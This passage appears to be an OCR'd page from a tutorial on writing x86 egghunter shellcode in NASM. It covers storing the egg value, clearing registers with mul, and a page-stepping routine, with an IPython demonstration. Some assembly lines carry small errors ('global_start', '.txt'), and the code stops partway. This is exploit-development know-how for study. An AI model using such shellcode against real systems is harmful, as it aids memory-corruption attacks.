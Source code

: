 ## Building Our Assembly Code

### Assembly Skeleton Code

```nasm
global_start

section .txt
_start:
```
The first thing we want to do is store our 'egg' in a register. 

```nasm
global_start

section .txt
_start: 
  
    mov ebx, 0x50905090
```

Next we will clear the `ecx`, `eax`, and `edx` registers. The opcode `mul` will multiply its operand against the `eax` register and store the result in `eax` and `edx`, so in this case it's being multiplied by 0 and storing 0 in both `eax` and `edx`. This saves us a line of code. Shout out to @epi052 for explaining to me [how `mul` works.](https://c9x.me/x86/html/file_module_x86_id_210.html) 

```nasm
    xor ecx, ecx
    mul ecx
```
### First Function, `page_forward:`

The first function we build into the code will be to increment 1 page in the event that we hit a page that is inaccessible to us (`al` = `0xf2`). 

By using a bitwise logical `or`, we're able to make sure we increment by multiples of `4095` ensuring that we don't skip a page. You can test this on Kali as follows:

```terminal_session
root@kali:~/petprojects# ipython
Python 2.7.15+ (default, Feb  3 2019, 13:13:16) 
Type "copyright", "credits" or "license" for more information.

IPython 5.8.0 -- An enhanced Interactive Python.
?         -> Introduction and overview of IPython's features.
%quickref -> Quick reference.
help      -> Python's own help system.
object?   -> Details about 'object', use 'object??' for extra details.

In [1]: int(0 | 0xfff)
Out[1]: 4095

In [2]: int(4094 | 0xfff)
Out[2]: 4095

In [3]: int(4095 | 0xfff)
Out[3]: 4095

In [4]: int(4096 | 0xfff)
Out[4]: 8191

In [5]: int(8191 | 0xfff)
Out[5]: 8191

In [6]: int(8192 | 0xfff)
Out[6]: 12287
```